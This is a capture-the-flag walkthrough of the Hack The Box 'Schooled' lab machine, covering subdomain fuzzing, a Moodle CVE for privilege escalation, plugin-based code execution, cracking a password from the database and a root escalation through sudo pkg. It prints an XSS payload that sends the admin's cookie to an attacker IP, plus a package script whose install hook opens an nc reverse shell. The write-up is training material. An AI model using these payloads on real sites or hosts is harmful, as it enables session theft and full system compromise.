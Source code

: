 ```yaml
---
published: true
title: Hackthebox Schooled walkthrough
date: 2021-11-26 00:23:00 +0200
categories: [HTB]
tags: HTB
---
```



<img src="https://i.ibb.co/j3QZnXc/Schooled.png" alt="Schooled" border="0">

<h2>Summary :</h2>

<li>1 - Stealing admin's cookie with XSS</li>
<li>2 - Privilege escalation using a CVE</li>
<li>3 - Getting RCE </li>
<li>4 - Database Enumeration</li>
<li>5 - Password cracking</li>
<li>6 - Creating malicious pkg</li>

					
<h2>Scanning phase :</h2> 

```
Not shown: 998 closed ports  
 PORT  STATE SERVICE VERSION  
 22/tcp open ssh   OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)  
 | ssh-hostkey:   
 |  2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)  
 |  256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)  
 |_ 256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)  
 80/tcp open http  Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)  
 |_http-favicon: Unknown favicon MD5: 460AF0375ECB7C08C3AE0B6E0B82D717  
 | http-methods:   
 |  Supported Methods: GET POST OPTIONS HEAD TRACE  
 |_ Potentially risky methods: TRACE  
 |_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15  
 |_http-title: Schooled - A new kind of educational institute  
 No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```


We found two open ports (22 - 80).

So what should we do here ? 

1 - Searching for an exploit for the running services.<br>
2 - Check the website and see what we can find.

<h2>Enumeration : </h2>

<img src="https://i.ibb.co/27mV3Yj/web.png" alt="web" border="0">

I start checking the application and nothing works, i only found a contact list.

<img src="https://i.ibb.co/dpLJwkX/contact-list.png" alt="contact-list" border="0">

I saw admissions@schooled.htb i was suspicious so i tried to add it as a subdomain "admissions.schooled.htb" but it didn't work.

Now i will try see if there is another subdomain.

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://schooled.htb/ -H 'Host: FUZZ.schooled.htb'  
     /'___\ /'___\      /'___\      
     /\ \__/ /\ \__/ __ __ /\ \__/      
     \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
     \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
      \ \_\  \ \_\ \ \____/ \ \_\      
      \/_/  \/_/  \/___/  \/_/      
     v1.2.0-git  
 ________________________________________________  
  :: Method      : GET  
  :: URL       : http://schooled.htb/  
  :: Wordlist     : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt  
  :: Header      : Host: FUZZ.schooled.htb  
  :: Follow redirects : false  
  :: Calibration   : false  
  :: Timeout     : 10  
  :: Threads     : 40  
  :: Matcher     : Response status: 200,204,301,302,307,401,403  
 ________________________________________________  
 moodle         [Status: 200, Size: 84, Words: 5, Lines: 2]  
```


<img src="https://c.tenor.com/6xIziN0-uq4AAAAC/boom.gif" alt="boom">

There is our subdomain !

<img src="https://i.ibb.co/12M1hfS/login.png" alt="login" border="0">

Now let's check if we can create an account.

<img src="https://i.ibb.co/4Rx7zrg/Creating-an-account.png" alt="Creating-an-account" border="0">

<img src="https://i.ibb.co/5vqHhYs/account.png" alt="account" border="0">

Creating an account should be in that formula name@student.schooled.htb

<img src="https://i.ibb.co/dDzXFCw/logged-in.png" alt="logged-in" border="0">

After some searching i found this <a href="https://github.com/HoangKien1020/CVE-2020-14321">CVE-2020-14321</a> that is the latest CVE for moodle so it should be for that box 😉

So if you read the CVE you should understood that i should have teacher role to use it.

After a while i found that the only course i can enrol is math course.

<img src="https://i.ibb.co/Gc5wMm9/Math.png" alt="Math" border="0">

I read the announcements and i found this.

<img src="https://i.ibb.co/10C0JM8/hint.png" alt="hint" border="0">

So the teacher interact with the user through moodleNet profile.

The first thing came into my head that i should use xss to steal his cookie, let's try it.

Payload : <img src=x onerror=this.src='http://10.10.x.x:8000/?'+document.cookie;>

<img src="https://i.ibb.co/vzp7m78/xss.png" alt="xss" border="0">

<img src="https://i.ibb.co/1fhZBYL/server.png" alt="server" border="0">

<img src="https://media3.giphy.com/media/l0HlFZ3c4NENSLQRi/200.gif" alt="wow">

<img src="https://i.ibb.co/xCMJcBR/session-hijacking1.png" alt="session-hijacking1" border="0">

Now we are manuel Phillips.

The next thing is enrolling a user, intercept the request, change the role to 1, and ID to our ID. This process will allow us to log in as the user we add. You must pick a user that has a manager role, which in our case is Lianne Carter.

Let's do it ! 

<img src="https://i.ibb.co/NYPwswm/intercept-id.png" alt="intercept-id" border="0">

Now look at the left panel.

<img src="https://i.ibb.co/7KLzTj7/administration.png" alt="administration" border="0">

We have site administration now. 

To get our RCE we have to install a custom plugin but we should edit our role to be able to install plugin.

Go to Users > Define Roles > Manager > Edit to edit our role, intercept the request and change it with the one on github.

<img src="https://i.ibb.co/FW9SZk0/change-role.png" alt="change-role" border="0">

Now we can install plugin.

<img src="https://i.ibb.co/st9NHxc/plugin.png" alt="plugin" border="0">

Just follow <a href="https://github.com/HoangKien1020/Moodle_RCE" >Moodle Rce</a> and trigger the rce at "domain/blocks/rce/lang/en/block_rce.php?cmd=id"

<img src="https://i.ibb.co/dmCmQcB/rce1.png" alt="rce1" border="0">


<h2>Foothold : </h2>

We got our shell !! 

<img src="https://i.ibb.co/swMrynH/shell.png" alt="shell" border="0">

After some enumeration i found database configuration file.

<img src="https://i.ibb.co/DYGB1rL/DB.png" alt="DB" border="0">

When i tried to use mysql the OS didn't find it, so i looked for it in /usr/local/bin and i found it, let's get the creds ! 

<img src="https://i.ibb.co/V2r0wfH/creds.png" alt="creds" border="0">

Now let's crack the hash.

<img src="https://i.ibb.co/ZGpsTWz/crack.png" alt="crack" border="0">

<h2>User Flag : </h2>

Jamies password = !QAZ2wsx

Let's grab our SSH.


<img src="https://i.ibb.co/tm4KHD3/sssh1.png" alt="sssh1" border="0">

Privilege escalation : 

After using sudo -l, we can install pkg with nopasswd.

<img src="https://i.ibb.co/ZWKgMRb/sudo.png" alt="sudo" border="0">

I found this refernce to create a pkg http://lastsummer.de/creating-custom-packages-on-freebsd/ 

Script for getting root :

```
 #!/bin/sh  
 STAGEDIR=/tmp/package  
 rm -rf ${STAGEDIR}  
 mkdir -p ${STAGEDIR}  
 cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF  
 echo “Resetting root shell”  
 rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.x.x 9080 >/tmp/a  
 EOF  
 cat >> ${STAGEDIR}/+POST_INSTALL <<EOF  
 echo “Registering root shell”  
 pw usermod -n root -s /bin/sh  
 EOF  
 cat >> ${STAGEDIR}/+MANIFEST <<EOF  
 name: mypackage  
 version: “1.0_5”  
 origin: sysutils/mypackage  
 comment: “automates stuff”  
 desc: “automates tasks which can also be undone later”  
 maintainer: john@doe.it  
 www: https://doe.it  
 prefix: /  
 EOF  
 pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .  
```

This script will create .txz file.

<img src="https://i.ibb.co/qmNcZwz/txs.png" alt="txs" border="0">

<h2>Root flag : </h2>

1 - Setup a listner on your machine <br>
2 - use this command  "sudo pkg install --no-repo-update *.txz"

<img src="https://i.ibb.co/LpnvwFY/root.png" alt="root" border="0">

<img src="https://c.tenor.com/J4GjjwnXX8QAAAAd/scarface-tony-montana.gif" alt="montana">
